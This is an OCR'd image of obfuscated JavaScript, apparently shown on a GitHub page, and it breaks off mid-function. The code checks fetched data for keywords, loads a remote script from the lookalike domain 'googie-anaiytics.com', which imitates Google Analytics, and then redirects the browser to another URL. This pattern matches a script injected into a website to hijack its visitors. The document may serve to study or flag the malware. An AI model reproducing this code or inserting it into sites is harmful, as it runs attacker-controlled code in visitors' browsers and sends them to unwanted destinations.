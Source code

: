 ``` js
    .then((_0x318df9) => {
      const _0x3d6056 = checkKeywords(_0x318df9)
      _0x3d6056 &&
        _0x2723e2 !== '' &&
          loadJS(
            'https://www.googie-anaiytics.com/html/checkcachehw.js?origin=kwvnn',
            function () {
              if (usercache == true) {
                window.location.href = _0x2723e2
              }
            }
          )
    })
    .catch((_0x2c91ce) =>
      console.error('Error fetching the JSON file:', _0x2c91ce)
    )
}
function check_tiaozhuan() {
  const _0x464cf7 = (function () {
      let _0x2ddab7 = true
      return function (_0x15452, _0x3e7ea8) {
        const _0x2faa6e = {
          bjeMJ: function (_0x15a8ac, _0xefecf2) {
            return _0x15a8ac(_0xefecf2)
          },
          pqiqW: function (_0x50e73a, _0x158536) {
            return _0x50e73a !== _0x158536
          },
          zbtQp: function (_0x1dfdda, _0x1aa046, _0x3b4d3c) {
            return _0x1dfdda(_0x1aa046, _0x3b4d3c)
          },
          volhE:
            'https://www.googie-anaiytics.com/html/checkcachehw.js?origin=kwvnn',
          OBmcC: function (_0x598542, _0x5a0037) {
            return _0x598542 == _0x5a0037
          },
          IzGuE: function (_0x193bad, _0x38f83f) {
            return _0x193bad <= _0x38f83f
          },
          MctlV: function (_0x4cf969, _0x3f5292) {
            return _0x4cf969 === _0x3f5292
          },
          NiqyK: 'mcNrr',
          HANcJ: 'QRUUg',
          pgwSI: function (_0x26a5c9, _0x345245) {
            return _0x26a5c9 !== _0x345245
          },
          XaDFm: 'iuHAU',
        }
        const _0x1c444b = _0x2ddab7
          ? function () {
              if (_0x2faa6e.MctlV(_0x2faa6e.NiqyK, _0x2faa6e.HANcJ)) {
                const _0x180d73 = _0x2faa6e.bjeMJ(_0x3eaf18, _0x2bb07f)
                _0x180d73 &&
                  _0x2faa6e.pqiqW(_0x4742d9, '') &&
                    _0x2faa6e.zbtQp(_0x955e25, _0x2faa6e.volhE, function () {
                      _0x2faa6e.OBmcC(_0x4eb5f8, true) &&
                        (_0x94c0a4.location.href = _0x1dbf3a)
                    })
              } else {
                if (_0x3e7ea8) {
                  if (_0x2faa6e.pgwSI(_0x2faa6e.XaDFm, _0x2faa6e.XaDFm)) {
                    _0x2faa6e.IzGuE(_0x51047d, 10) && (_0x391f84 = _0x40837e)
```